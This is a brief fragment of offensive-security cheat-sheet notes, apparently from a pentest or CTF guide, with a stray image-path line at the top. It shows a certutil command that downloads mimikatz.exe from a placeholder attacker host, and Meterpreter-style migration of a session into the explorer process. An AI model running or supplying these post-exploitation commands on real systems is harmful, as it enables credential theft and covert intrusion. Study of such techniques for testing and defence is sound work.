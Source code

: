 - __`certutil - urlcache -f http://<attacker>/mimikatz.exe mimikatz.exe`__
  - __Windows utilities can be used to download files from a remote web server, Same as wget in linux__
 
- __`pgrep explorer`__
  - __`migrate <process_id>`__
